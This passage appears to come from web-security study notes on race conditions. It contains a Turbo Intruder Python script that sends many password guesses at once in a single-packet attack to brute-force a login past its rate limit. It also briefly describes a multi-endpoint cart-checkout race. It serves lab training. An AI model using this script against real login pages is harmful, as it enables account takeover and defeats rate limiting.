 ```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    passwords=wordlists.clipboard

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
     # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='gate1')

    # once every request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('gate1')


def handleResponse(req, interesting):
    table.add(req)

```
For more details, see the `race-single-packet-attack.py` template provided in Turbo Intruder's default examples directory.

Here is the lab that bruteforces a login bypassing the rate limit using a race condition: [login_rate_limit_bypass](labs/login_rate_limit_bypass.md)

# Multi-endpoint race conditions

Perhaps the most intuitive form of these race conditions are those that involve sending requests to multiple endpoints at the same time.

Think about the classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page.

A variation of this vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. The state machine for the order status might look something like this:
![](imgs/race-conditions-basket-adjustment-race.png)In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.
